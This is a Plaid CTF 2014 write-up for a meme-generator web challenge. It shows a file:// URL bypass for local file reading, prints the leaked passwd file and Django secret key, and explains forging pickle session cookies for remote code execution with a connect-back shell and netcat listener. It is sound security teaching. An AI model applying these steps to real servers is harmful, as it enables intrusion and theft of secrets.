 # reeekeeeeee
    Plaid CTF, 2014
    writeup by pipecork

Upon a hideously awesome flashing background, visiting the site asks us to register an account. We create the user account 'les' and login. We're prompted to "make a meme" by supplying the URL to an image and some overlay text. Our created memes are then displayed on the page. While a fun activity on a Saturday night, we have a flag to find. Let's check the source for some vulns.

The file [views.py](reekee/mymeme/views.py) holds the meat of the application. We see they do a lot of concatenation of the username onto directory paths in the `viewmeme` function:

```python
def viewmeme(request,meme=None):
  print meme
  username = str(request.user)
  if meme is not None:
    filename = "/tmp/memes/"+username+"/"+str(meme)
    ctype = str(imghdr.what(filename))
    return HttpResponse(open(filename).read(),content_type="image/"+ctype)
  else:
    return render(request,"view.html",{'files':sorted(os.listdir("/tmp/memes/"+username), key=lambda x:os.path.getctime(bp+x) )})
  return HttpResponse("view"+username)
```

So a user's created memes are stored in `/tmp/memes/<username>` and the whole directory gets listed to display them. So, of course, let's make a user named `../..` right? Unfortunately, in the `register` function:

```python
. . .

if (".." in username) or ("/" in username):
  return HttpResponse("Error: invalid username"+BACK)

. . .
```

Drat. Eventually in a stroke of genius by mike_pizza, we spot small error in the code that downloads the meme image from a supplied URL:

```python
. . .

try:
  if "http://" in url:
    image = urllib2.urlopen(url)
  else:
    image = urllib2.urlopen("http://"+url)

. . .
```

The if statement only checks if the string "http://" is in the supplied URL... not if it actually starts with it! We can use `file://` with urllib's `urlopen` function to grab files from the server. Passing `file:///etc/passwd#http://` as a meme url confirms our suspicions by uploading the server's passwd file as one of our memes:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
admin:x:1000:1000:Debian:/home/admin:/bin/bash
reekee:x:1001:1001::/home/reekee:/bin/false
reekeeplus:x:1002:1002::/home/reekeeplus:/bin/false
``` 

Cool. Now where's the flag? There's a big clue in the [supplied settings.py file](reekee/mymeme/settings.py):

```python
. . .

#HMMMMM
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'

. . .
```



Pickle with signed cookies is *notorious* for allowing remote code execution, provided that you have the Django app's secret key. Normally in a Django app like this one, we'd find the secret development key in the same file. Of course, the *real* secret key isn't in here. That'd make it too easy. 

After a bit of trial-and-error, we find the real settings.py file with `file:///home/reekee/mymeme/mymeme/settings.py#http://`. Lo and behold:

```python
...
SECRET_KEY='kgsu8jv!(bew#wm!eb3rb=7gy6=&5ew*jv)j-6-(50$f%no98-'
...
```

This is the secret key used to sign the SessionID that's then serialized by Pickle. Using this, we can forge custom SessionIDs to give us code execution!

This is where we have to give thanks to others before us (such as [Erik Romijn](http://erik.io/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/)) for their wonderful prior work on building PoC code to exploit this. Using their work saved us some serious time in solving this challenge.

First we start listening on a port on our machine, with `nc -lp 1337`. We used a [Django specific exploit](django-exploit.py) to send a Python [connect back shell](connback.py), which connects to our listening port, giving us a shell on the web server! Let's check the home directories:

```bash
$ cd /home/reekeeplus
$ ls
give_me_the_flag.exe  mymeme  use_exe_to_read_me.txt
$ ./give_me_the_flag.exe
flag: why_did_they_make_me_write_web_apps
write: Success
```

Bingo! The flag is `why_did_they_make_me_write_web_apps`.

(For those wondering why they required using an executable to read the flag: the challenge wanted to make sure you had execution on the server, and didn't just use the previous local file inclusion vuln to read the flag file.)

